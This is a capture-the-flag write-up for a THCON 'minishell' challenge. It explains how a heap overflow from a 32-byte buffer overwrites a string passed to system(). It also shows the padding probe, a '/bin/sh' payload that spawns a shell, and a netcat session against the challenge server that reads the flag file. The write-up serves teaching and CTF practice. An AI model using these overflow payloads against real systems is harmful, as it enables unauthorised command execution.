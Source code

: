 
## Basics

First of all we don't have binaries associated with the challenge so I add to compile them:
```
gcc log.c -o log
gcc minishell.c -lcrypto -o minishell
```

Once this is done we can start reading the source code!

> **Note**:  
> Contrary to what I'm used to say and do, here there is no need to inspect the binary with `file`, `checksec`, `strings`, `ldd`, `ltrace` and `strace` because we compiled it ourself!  
> We can not ensure that it has been compiled the same way in remote, still, it can be useful to experiment a bit.

## Source code inspection

So let's read the code!
`log.c` is really simple, just a `main` function, it's a logging tool, it will write its arguments passed in command line to a log file, that's all.

`minishell.c` is really something else: 269 lines of code.  
When reading `C` code I always start looking globally at the function names and then I deep into the `main` function first.
Here it helped a lot, in `main` we quickly note that there is a bunch of variables initialization, some memory allocation and then a `while(1)`!
This is the infinite loop allowing the shell to always wait for user instructions.

We understand that the user is prompted for a string, which is then verified (some characters are forbidden in `commandAllowed` maybe there is something here) and parsed with `strtok`.
Then a bunch of `if else` identify which function to execute given the user command. At that point I could have start looking into each and every function to look for vulnerabilities.
But I didn't, I wanted to finish first the reading of `main` and I chose really well.

So we continue reading `main` to the last `else` (in case the command doesn't match any predefined strings), and there we have some really interesting stuff!
```C
             }else {
               char  *log = malloc(256 * sizeof(char));
                strcpy(log, "./log Error with command:");


                strcpy(arg, cmd);
                strcat(log, arg);
                system(log);

                printf("Unknow command, this event has been reported\n");
            }
```
Some `strcpy`, a `strcat` and above all a `system` call!

Of course it instantly caught my eye: if we were able to control the `log` variable, we could inject some commands here.
Unfortunately a predefined string is written in `log` and even if we control `cmd` it is just appended to `./log Error with command:` (remember `./log` is the second binary compiled at the beginning) by `strcat` and because special characters like `;` or `&&` are forbidden we cannot inject a 2nd command to `log` 😢

> **Note**:  
> However I noticed first that at the beginning of the `while` loop `buffer` is copied into `cmd` **before** verifying it with `commandAllowed`.  
> So I tested an exploit where I injected some forbidden command `aa; /bin/sh` which won't be executed **but will be written in `cmd` anyway**.  
> And then I inject a second one `a` which is allowed but unrecognized: the idea was that it didn't totally overwrite `cmd` which then would be something like `a\n; /bin/sh` and be appended to `log` then executed.  
> Unfortunately, `strcpy` (or other reason) adds a `\x00` between the "new" injection `a` and the "remaining" one in `cmd`, so it ends the string and even if the payload is there in the stack it isn't copied in `log` and wouldn't have been executed by `system` anyway.  
> So close!

So the real vulnerability is still here lying under our eyes: simply `arg` is not the same size as `cmd`, then when copying a long `cmd` into `arg` it overflows.
```C
    char* buffer = malloc(256 * sizeof(char));
    char* cmd = malloc(256 * sizeof(char));
    char  *arg = malloc(32 * sizeof(char));
```
Because `arg` is in the heap the question is then: what do we overflow?
And the answer is "if it's the first prompt, probably `log` which is alloc'd after `arg`", and finally we control `log`!!!

## Exploitation

Now `arg` is 32 bytes long, and because we're in the heap we will first overwrite the chunk header before overwriting `log`'s content.
To determine exactly the padding needed for our payload, either we know the heap chunk header size, or we use `gdb` (which is often really useful) but even simpler: a smart payload such as: `AAAAAAAABBBBBBBBCCCCCCCCDDDDDDDDEEEEEEEEFFFFFFFFGGGGGGGG` (generated with a `for` loop in python to avoid silly mistakes...) will easily do the job.  
We inject it and see:
```
$ ./minishell
spaceshell> AAAAAAAABBBBBBBBCCCCCCCCDDDDDDDDEEEEEEEEFFFFFFFFGGGGGGGG
sh: line 1: GGGGGGGG: command not found
sh: line 2: AAAAAAAABBBBBBBBCCCCCCCCDDDDDDDDEEEEEEEEFFFFFFFFGGGGGGGG: command not found
sh: line 3: AAAAAAAABBBBBBBBCCCCCCCCDDDDDDDDE: command not found
Unknow command, this event has been reported
spaceshell>
```
Victory! `GGGGGGGG` is executed as a command (I confirmed it with `ltrace ./minishell` and saw the execution of `system` with our payload and the result).
We then infer that an heap chunk header was 16 bytes long because our payload padding is `AAAAAAAABBBBBBBBCCCCCCCCDDDDDDDDEEEEEEEEFFFFFFFF` which is 48 bytes, minus the 32 of `arg` we get 16 bytes for the header.

The final payload is of course: `AAAAAAAABBBBBBBBCCCCCCCCDDDDDDDDEEEEEEEEFFFFFFFF/bin/sh` and like that we get our shell 😉

Locally:
```
$ ./minishell
spaceshell> AAAAAAAABBBBBBBBCCCCCCCCDDDDDDDDEEEEEEEEFFFFFFFF/bin/sh
sh-5.2$ whoami
ctmbl
```
Remotely (I could have used `/bin/sh` too of course):
```
$ nc 20.19.241.70 3001
spaceshell> AAAAAAAABBBBBBBBCCCCCCCCDDDDDDDDEEEEEEEEFFFFFFFFcat /home/ctf/flag.txt
THCON{G00d_0ld_0v3rfl0w}Unknow command, this event has been reported
```
🎉🎉🎉🎉

A good old overflow for sure 🙂, but a good reminder and a nice introduction to heap overflow overall 😉

## Resources

Links:
- `strcpy`: https://man7.org/linux/man-pages/man3/strcpy.3.html
- `strcat`: https://linux.die.net/man/3/strcat
- `strtok`: https://man7.org/linux/man-pages/man3/strtok.3.html
- `system`: https://man7.org/linux/man-pages/man3/system.3.html
